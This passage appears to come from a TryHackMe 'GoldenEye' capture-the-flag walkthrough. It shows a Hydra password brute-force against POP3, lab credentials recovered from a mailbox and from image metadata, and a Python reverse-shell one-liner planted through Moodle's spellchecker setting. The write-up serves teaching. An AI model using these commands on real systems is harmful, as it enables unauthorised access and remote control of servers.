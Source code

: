 ## Doak’s Account

Hydra quickly finds his POP3 credentials:

```bash
hydra -l doak -P /usr/share/wordlists/fasttrack.txt -f -s 55007 10.10.158.90 pop3
```

**Output:**

```bash
[55007][pop3] host: 10.10.158.90   login: doak   password: goat
```

Checking Doak’s mailbox, we find credentials for another account:

```text
username: dr_doak
password: 4England!
```

These work on the Moodle platform, giving us access to more restricted content.

## Dr. Doak’s Secret

Inside Doak’s Moodle files is a message to “007”, hinting at credentials hidden elsewhere:

![Moodle Messages](/ctf/tryhackme/golden-eye/moodle-messages-doak.png)

```text
Something juicy is located here: /dir007key/for-007.jpg
```

Visiting `http://severnaya-station.com/dir007key/for-007.jpg` downloads an image. Inspecting metadata with `exiftool` reveals a Base64 string:

```bash
exiftool for-007.jpg
echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d
```

**Decoded password:** `xWinter1995x!`

So the Moodle admin credentials are: **admin : xWinter1995x!**

## Initial Foothold

Logged in as admin, we can abuse Moodle’s **PSpellShell** feature to execute system commands.

* Navigate to *Site administration → Server → System paths* and set the `Path to spellchecker` to python payload.

    ![System Paths](/ctf/tryhackme/golden-eye/system-paths.png)

    ```bash
    python -c 'import socket,os,pty;s=socket.socket();s.connect(("10.14.102.54",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```
